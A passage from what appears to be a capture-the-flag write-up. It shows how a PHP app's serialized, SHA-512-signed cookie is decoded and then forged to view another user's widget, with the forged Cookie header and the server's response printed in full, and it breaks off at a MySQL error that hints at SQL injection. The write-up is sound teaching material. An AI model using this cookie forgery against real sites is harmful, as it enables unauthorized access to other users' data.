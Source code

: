 <p>What&#8217;s in cookies:</p>

<ul><li><s>Sugar and chocolate</s></li>
<li><code>widget_tracker</code> looks like a Base64-then-urlencoded value</li>
<li><code>widget_validate</code> has length of 128 bytes so the guess is it&#8217;s either SHA-512 or Whirlpool</li>
</ul><p>Now, <code>atob(decodeURIComponent('YToxOntpOjA7aTo2MDA1O30%3D'))</code> (yes, I do it in JS sometimes, as web console is open all the time anyway) produces <code>a:1:{i:0;i:6005;}</code>. If you haven&#8217;t coded in PHP you haven&#8217;t lived. That&#8217;s a typical output from PHP&#8217;s <a href="http://php.net/manual/en/function.serialize.php">serialize()</a> function where <code>a</code> stands for <code>Array</code>. <code>6005</code> is the ID of my newly created widget. So it looks like the server keeps track of that record. Adding more widgets proves the point and extends the serialized string as expected. On the other hand, <code>widget_validate</code> is quickly determined to be a <em>SHA-512</em> hash of  <code>a:1:{i:0;i:6005;}</code>, not its Base64-encoded value.</p>

<p>After figuring out the mechanisms in this web app, we can proceed to tampering with its inputs. First of all, widget with ID <code>1</code> was definitely not mine, so I was not supposed to see it in the list of widgets. Let&#8217;s shove in <code>1</code> instead of <code>6005</code>, update the <code>widget_validate</code> value and send it out to the web app:</p>

<pre><code>Cookie: PHPSESSID=j8o9ofckraou946bsegn5voea3; widget_tracker=YToxOntpOjA7aToxO30%3d; widget_validate=c1974073058b597f09786ec2c30b1227594f74fb82ddfa718c99b855aa4fc374858e973645851348d4a278fec987aabf48352e33f99a18688c936dfadd9ce1a9
</code></pre>

<p>Sure enough, we get back what we wanted along with the server&#8217;s old cookies forced (i.e. no cookie rewriting):</p>

<pre><code>HTTP/1.1 200 OK
Date: Sun, 22 Sep 2013 14:01:30 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: widget_tracker=YToxOntpOjA7aToxO30%3D
Set-Cookie: widget_validate=c1974073058b597f09786ec2c30b1227594f74fb82ddfa718c99b855aa4fc374858e973645851348d4a278fec987aabf48352e33f99a18688c936dfadd9ce1a9
Vary: Accept-Encoding
Content-Length: 263
Content-Type: text/html

&lt;link rel="stylesheet" type="text/css" href="style.css"&gt;
&lt;div id="content"&gt;
&lt;h1&gt;Widget Corp &lt;span&gt;Raise your dongers? More like raise your widgets.&lt;/span&gt;&lt;/h1&gt;
[&lt;a href="/edit.php?id=1"&gt;EDIT&lt;/a&gt;] [&lt;a href="/view.php?id=1"&gt;VIEW&lt;/a&gt;] Widget: 1 Value: 1&lt;br /&gt;&lt;/div&gt;
</code></pre>

<p>It&#8217;s clear that the forged cookie is being processed and so we may dig deeper. At first, I was thinking that it couldn&#8217;t be a simple cookie challenge and started pondering on PHP&#8217;s <a href="https://www.owasp.org/index.php/PHP_Object_Injection">unserialize()</a> object injection, magic methods, etc. That was unnecessary at all, however. I decided to put <code>lol</code> instead of <code>6005</code> to see how it reacted to serialized strings and it spat out a lovely <em>MySQL</em> error:</p>
